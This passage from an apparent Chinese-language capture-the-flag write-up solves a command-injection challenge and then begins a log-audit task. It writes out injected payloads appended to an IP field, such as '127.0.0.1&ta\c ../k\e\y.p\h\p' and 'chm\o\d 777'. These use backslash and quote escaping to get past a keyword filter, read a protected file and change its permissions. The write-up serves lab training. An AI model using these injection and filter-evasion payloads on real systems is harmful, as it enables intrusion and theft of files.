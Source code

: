 ![image.png](https://img.ghostliner.top/TV9fAr.png)

```shell
127.0.0.1&\l\s ../key.php # 执行失败
127.0.0.1&ta\c index.p\h\p # 执行成功
```

发现过滤了命令和文件名

```shell
127.0.0.1&ta\c ../k\e\y.p\h\p
127.0.0.1&ta\c ../k\e\y.p'h'p
```

尝试多种绕过未成功，猜测无权限读取，查看文件权限

```shell
127.0.0.1&l\s -al ../
```

发现无权限

![image.png](https://img.ghostliner.top/QFuJsi.png)

添加权限

```shell
127.0.0.1&chm\o\d 777 ../key.p\h\p
127.0.0.1&l\s -al ../
```

![image.png](https://img.ghostliner.top/32m7Mj.png)

读取文件

![image.png](https://img.ghostliner.top/DVb3DA.png)

`/tmp` 下发现 flag

![image.png](https://img.ghostliner.top/ewOhVd.png)

## 14. 日志审计（一）

![image.png](https://img.ghostliner.top/r4UNtq.png)

下载 `access.log`，进行分析

对文件内容进行正则过滤，点击 `在当前文件中查找`

![image.png](https://img.ghostliner.top/j6tfja.png)

发现文件上传路径

![image.png](https://img.ghostliner.top/NSLUXC.png)

发现对 `adminlogin.php` 的爆破
